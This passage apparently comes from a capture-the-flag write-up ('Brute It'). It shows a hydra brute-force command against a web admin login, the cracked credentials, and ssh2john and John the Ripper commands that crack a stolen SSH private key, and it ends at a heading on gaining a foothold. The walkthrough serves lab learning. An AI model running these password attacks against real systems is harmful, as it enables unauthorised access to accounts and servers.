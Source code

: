 ```bash
hydra -l admin -P /opt/SecLists/Passwords/xato-net-10-million-passwords-1000000.txt 10.10.34.122 http-post-form '/admin/:user=^USER^&pass=^PASS^:Username of password invalid'
```
![Desktop View](/assets/images/brute-it/bruteforced.png){: width="972" height="589" }

```bash
[80][http-post-form] host: 10.10.44.25   login: admin   password: xavier
```

Login using the credentials we got.

![Desktop View](/assets/images/brute-it/login.png){: width="972" height="589" }

Get the id_rsa and crack it.

Convert the private key into a hash that can be cracked by the password cracking tool John the Ripper using ssh2john

```bash
ssh2john id_rsa > id_rsa_compatible.txt
```

```bash
john id_rsa_compatible.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
![Desktop View](/assets/images/brute-it/john.png){: width="972" height="589" }


## **Gaining an Initial Foothold**
---

